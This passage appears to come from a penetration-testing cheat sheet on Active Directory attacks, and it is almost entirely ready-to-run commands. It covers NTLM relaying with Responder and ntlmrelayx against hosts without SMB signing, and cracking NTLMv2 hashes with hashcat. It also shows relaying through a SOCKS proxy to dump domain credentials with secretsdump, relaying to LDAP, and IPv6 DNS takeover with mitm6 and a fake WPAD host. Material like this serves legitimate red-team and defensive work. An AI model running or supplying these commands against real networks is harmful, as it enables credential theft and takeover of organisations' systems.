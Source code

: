 ```
# Modify responder.cfg to disable HTTP and SMB servers
# Start ntmlrelay.py against smb_sign_disabled.txt hosts list
ntlmrelayx.py -tf smb_sign_disabled.txt
# Then start responder in attack mode
responder -rdP -I eth0 

# Cracking NTLMv2
hashcat -m 5600 ntlmhash.txt /usr/share/wordlists/rockyou.txt --force
```

### Basic attack B (socks proxy) <a href="#basic-attack-b-socks-proxy" id="basic-attack-b-socks-proxy"></a>



```
# Modify responder.cfg to disable HTTP and SMB servers
# Start ntmlrelay.py against smb_sign_disabled.txt hosts list
ntlmrelayx.py -tf smb_sign_disabled.txt -smb2support -socks
# Edit proxychains4.conf to:
socks4 127.0.0.1 1080
# Run secretsdump 
proxychains secretsdump.py dcname\user:password@10.10.10.X
# Even smbclient
proxychains smbclient.py dcname\user:password@10.10.10.X
```

### LDAP Enum <a href="#ldap-enum" id="ldap-enum"></a>



```
ntlmrelayx.py -t ldap://10.10.10.10 -smb2support
```

### IPv6 DNS Takeover via Mitm6 <a href="#ipv6-dns-takeover-via-mitm6" id="ipv6-dns-takeover-via-mitm6"></a>

```
git clone https://github.com/fox-it/mitm6.git 
pip install mitm6 
mitm6 -d domain.name
# During before step, in other terminal run
ntlmrelayx.py -6 -t ldaps://192.168.176.129 -wh fakewpadhost.domain.name -l dir
```

### LDAP complete guide <a href="#ldap-complete-guide" id="ldap-complete-guide"></a>

{% embed url="https://www.xmind.net/m/5dypm8/" %}

### DACL mindmap <a href="#dacl-mindmap" id="dacl-mindmap"></a>
